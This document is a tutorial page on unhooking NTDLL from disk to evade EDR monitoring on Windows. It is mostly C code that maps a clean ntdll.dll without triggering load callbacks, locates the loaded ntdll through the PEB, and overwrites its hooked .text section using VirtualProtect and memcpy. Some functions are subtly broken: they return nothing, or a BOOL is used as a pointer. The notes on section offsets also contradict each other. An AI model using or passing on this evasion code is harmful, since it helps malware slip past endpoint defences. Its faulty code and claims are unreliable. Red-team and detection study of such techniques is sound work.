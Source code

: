 # NTDLL Unhooking - From Disk

## Introduction

REMINDER: When a DLL is read from disk the offset will be 0x400 (1024).&#x20;

<mark style="color:yellow;">**Tl;DR**</mark> Mapping an image into memory rather than reading from disk is more reliable and preferred method.



## Reading NTDLL

The first step is to read NTDLL from disk (C:\Windows\System32\ntdll.dll). There are two methods we can use to do this.&#x20;

* ReadFile (Reads file from disk - 1024 offset)
* CreateFileMapping & MapViewOfFile - (4096 offset MUST include`SEC_IMAGE` or `SEC_IMAGE_NO_EXECUTE` flags in `CreateFileMappingA)` or offset remains 1024.

I'm not going to include a ReadFile example.&#x20;

## Mapping NTDLL

Something worth noting: SEC\_IMAGE\_NO\_EXECUTE does not trigger [PsSetLoadImageNotifyRoutine](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntddk/nf-ntddk-pssetloadimagenotifyroutine) callback. Using this will not trigger EDRs.

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### CreateFileMappingW & MapViewOfFile

```c
BOOL MapNtdllFromDisk() {
    HANDLE hFile = NULL;
    HANDLE hMappingFile = NULL;

    hFile = CreateFileW(ntdllFullPath, GENERIC_READ, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
    if (hFile == INVALID_HANDLE_VALUE) {
        wprintf(L"CreateFileW Failed %d\n", GetLastError());
        return FALSE;
    }
    DWORD dwFileSize = GetFileSize(hFile, NULL);
    if (dwFileSize == INVALID_FILE_SIZE) {
        wprintf(L"GetFileSize Failed %d\n", GetLastError());
        return FALSE;
    }
    // Use SEC_IMAGE_NO_EXECUTE (needed for offset & not to trigger callback)
    hMappingFile = CreateFileMappingW(hFile, NULL, PAGE_READONLY | SEC_IMAGE_NO_EXECUTE, 0, 0, (LPCWSTR)NULL);
    if (!hMappingFile) {
        wprintf(L"CreateFileMappingW Failed: %d\n", GetLastError());
        return FALSE;
    }

    LPVOID lpBuffer = MapViewOfFile(hMappingFile, FILE_MAP_READ | FILE_MAP_COPY, 0, 0, 0);
    if (lpBuffer == NULL) {
        wprintf(L"MapViewOfFile Failed: %d\n", GetLastError());
        return FALSE;
    }

    wprintf(L"lpBuffer: %p\n", lpBuffer);
}
```

####

### Reading vs Mapping NTDLL

Sometimes when the `ntdll.dll` file is read from disk rather than mapped to memory, the offset of its text section might be 4096 instead of the expected 1024.&#x20;

Mapping the `ntdll.dll` file to memory is <mark style="color:yellow;">more reliable since the text section offset will always equal the</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`IMAGE_SECTION_HEADER.VirtualAddress`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">offset of the DLL file</mark>.



## Unhooking NTDLL



### 1.) Get NTDLL Base Address

There are multiple ways to get a local NTDLL base address. Here is the best way:

* InMemoryOrder.Flink->Flink is a pointer to the second entry in the linked list. This is `ntdll.dll`, the first entry is the running process (unhooking\_ntdll.exe).
* InMemoryOrder.Flink->Flink actually points to the <mark style="color:yellow;">END</mark> of the entry rather than the beginning. The size of the LIST\_ENTRY structure is 0x10, therefore we subtract 0x10 to move the pointer to the beginning.

```c
PVOID FetchLocalNtdllAddress() {
    PPEB pPeb = (PPEB)__readgsqword(0x60);
    PLDR_DATA_TABLE_ENTRY pLdr = (PLDR_DATA_TABLE_ENTRY)((PBYTE)pPeb->Ldr->InMemoryOrderModuleList.Flink->Flink - 0x10);
    return pLdr->DllBase;
}
```

Alternatively, you can use GetModuleHandle() but is a worse approach than above.

### 2.) Fetching The Local NTDLL.DLL Text Section

Getting NTDLL.DLL Text section is easy as getting `BaseOfCode` & `SizeOfCode` from `PIMAGE_OPTIONAL_HEADER`

```c
BOOL FetchLocalTextSectionNtdll(PVOID pBaseAddress) {
    PIMAGE_DOS_HEADER pDosHeader = (PIMAGE_DOS_HEADER)pBaseAddress;
    PIMAGE_NT_HEADERS pNtHeaders = (PIMAGE_NT_HEADERS)(pBaseAddress + pDosHeader->e_lfanew);
    PIMAGE_OPTIONAL_HEADER pOptionalHeader = (PIMAGE_OPTIONAL_HEADER)&pNtHeaders->OptionalHeader;

    DWORD dwSizeOfText = pOptionalHeader->SizeOfCode;
    PVOID pAddressOfText = pBaseAddress + pOptionalHeader->BaseOfCode;

}

```

Alternatively, you can iterate pNtHeaders->FileHeader.NumberOfSections and search .text.&#x20;



### 3.) Fetching the Unhooked NTDLL.DLL Text Section

We can use our mapping function we created earlier to get the base address of the unhooked ntdll.dll .text section.

We then simply add the base address with the offset (4096 for mapping, 1024 for ReadFile).

```c
ULONG_PTR pUnhookedTxtNtdll = (ULONG_PTR)(MapNtdllFromDisk()) + 4096; // or IMAGE_SECTION_HEADER.VirtualAddress of ntdll.dll
```



### 4.) .Text Section Replacement

We now have everything we need. We can now swap the text section of the unhooked ntdll with the hooked using **memcpy**.

Before we swap we need to change permissions via `VirtualProtect` WinAPI by setting the `PAGE_EXECUTE_WRITECOPY` or `PAGE_EXECUTE_READWRITE` flags.&#x20;

After we've copied the text section we will change back to original permissions.

```c
BOOL SwapNtdllTextSections(IN PVOID pLocalNtdll, IN PVOID pUnhookedNtdll, IN DWORD dwSizeOfText) {
    wprintf(L"Local NTDLL: %p\nUnhooked NTDLL: %p\nSize of Text: %d\n", pLocalNtdll, pUnhookedNtdll, dwSizeOfText);
    // Update Local NTDLL Memory Permissions to RWX Access (Currently only RX)
    DWORD dwOldPermissions = 0;
    if (!VirtualProtect(pLocalNtdll, dwSizeOfText, PAGE_EXECUTE_WRITECOPY, &dwOldPermissions)) {
        wprintf(L"VirtualProtect Failed %d", GetLastError());
        return FALSE;
    }
    getchar();
    // Copy Memory from Unhooked to Local
    memcpy(pLocalNtdll, pUnhookedNtdll, dwSizeOfText);

    if (!VirtualProtect(pLocalNtdll, dwSizeOfText, dwOldPermissions, NULL)) {
        wprintf(L"VirtualProtect Failed %d", GetLastError());
        return FALSE;
    }
    return TRUE;
}
```
